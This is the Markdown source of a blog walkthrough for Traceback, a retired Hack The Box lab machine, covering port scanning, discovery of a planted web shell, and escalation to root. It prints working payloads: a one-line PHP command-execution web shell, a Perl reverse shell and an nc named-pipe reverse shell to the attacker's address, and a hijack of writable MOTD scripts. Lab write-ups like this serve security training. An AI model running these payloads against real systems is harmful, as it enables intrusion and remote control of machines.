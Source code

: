 ```yaml
---
layout: post
title: "Traceback: Hack The Box Walkthrough"
date: 2020-08-16 10:48:34 +0000
last_modified_at: 2020-08-16 10:48:34 +0000
category: Walkthrough
tags: ["Hack The Box", Traceback, retired, Linux, Easy]
comments: true
image:
  feature: traceback-htb-walkthrough.png
---
```


This post documents the complete walkthrough of Traceback, a retired vulnerable [VM][1] created by [Xh4H][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Traceback is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.181 --rate=500

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-03-16 12:52:36 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.181
Discovered open port 22/tcp on 10.10.10.181
```

Nothing unusual. Let's do one better with `nmap` scanning the discoverd ports to establish their services.

```
# nmap -n -v -Pn -p22,80 -A --reason 10.10.10.181 -oN nmap.txt
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
```

What a shit show. There's nothing! Well, here's what the site looks like.

{% include image.html image_alt="6be51932.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/6be51932.png" %}

And check out the HTML source.

{% include image.html image_alt="f9caf3d2.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/f9caf3d2.png" %}

### Some of the best web shells that you might need

Following the hint about some of the best web shells, I land up on this GitHub [repo](https://github.com/TheBinitGhimire/Web-Shells).

{% include image.html image_alt="769260e3.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/769260e3.png" %}

I created a wordlist of files from the repo like so.

```
# curl -s https://github.com/TheBinitGhimire/Web-Shells | html2text | grep -P '\b.*php\b' | awk '{ print $1 }' | sort | uniq > shells.txt
```

And then fuzz the site with the `wfuzz` and the wordlist.

```
# wfuzz -w shells.txt --hc 404 http://10.10.10.181/FUZZ
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.181/FUZZ
Total requests: 15

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000014:   200        58 L     100 W    1261 Ch     "smevk.php"

Total time: 0.667009
Processed Requests: 15
Filtered Requests: 14
Requests/sec.: 22.48844
```

### SmEvK v3

There's a web shell at http://10.10.10.181/smevk.php alright.

{% include image.html image_alt="b2242bc1.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/b2242bc1.png" %}

The credential (`admin:admin`) lets me in!

{% include image.html image_alt="40777fc6.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/40777fc6.png" %}

Well, I prefer my own shell so I used the code injector page to write my own shell to `/var/www/html` like so.

```
<?php echo shell_exec($_GET[0]); ?>
```

{% include image.html image_alt="8a052171.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/8a052171.png" %}

As usual, let's run a Perl reverse shell back to us.

```
perl -e 'use Socket;$i="10.10.16.125";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

{% include image.html image_alt="17073a87.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/17073a87.png" %}

Follow this excellent [guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to upgrade the shell to full interactive TTY with auto-completion. :wink:

### Getting `user.txt`

Since the file `user.txt` is not found in `webadmin`'s home directory, let's check out `/etc/passwd`.

{% include image.html image_alt="a4e27885.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/a4e27885.png" %}

It should be `sysadmin`'s home directory then! During enumeration of `webadmin`'s account, I notice that `webadmin` is able to run `luvit` as `sysadmin` without password.

{% include image.html image_alt="5af80749.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/5af80749.png" %}

Also, there's a note that says the following.

<div class="filename"><span>note.txt</span></div>

```
- sysadmin -
I have left this tool to practice Lua. Contact me if you have any question.
```

The creator has also kindly left an sample Lua file.

<div class="filename"><span>privesc.lua</span></div>

```lua
local test = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
test:write("ssh-rsa AAAAB3N...eJTsVsKE= root@parrot\n")
test:close()
```

We just have to use it to write our own public key to `sysadmin`'s `authorized_keys`. Because I like `bash` better, I run the following command instead.

```
# ssh -i sysadmin sysadmin@10.10.10.181 -tt /bin/bash
```

{% include image.html image_alt="af3a1566.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/af3a1566.png" %}

The file `user.txt` is indeed in `sysadmin`'s home directory.

{% include image.html image_alt="ae831fa0.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/ae831fa0.png" %}

## Privilege Escalation

During enumeration of `sysadmin`'s account, I notice that `sysadmin` has group write permissions to message-of-the-day (MOTD) scripts in `/etc/update-motd.d`. In addition, there's a restoration of the scripts every minute.

{% include image.html image_alt="7d057b23.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/7d057b23.png" %}

### Getting `root.txt`

Getting a `root` shell within a minute is pretty easy.

First, open a terminal and set up a `nc` listener.

Second, `echo` the following to `/etc/update-motd.d/00-header` in `sysadmin`'s shell:

```
$ echo -ne '#!/bin/sh\n\nrm -rf /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | /bin/nc 10.10.16.125 1234 >/tmp/p' > /etc/update-motd.d/00-header
```

Finally, open another terminal and login to `sysadmin`'s account via SSH.

{% include image.html image_alt="ce8dd8bc.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/ce8dd8bc.png" %}

There you have it. Getting `root.txt` is trivial with a `root` shell.

{% include image.html image_alt="e8afcb13.png" image_src="/c3785ff4-2b69-4e45-b317-9c3e50e24c35/e8afcb13.png" %}

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/233
[2]: https://www.hackthebox.eu/home/users/profile/21439
[3]: https://www.hackthebox.eu/
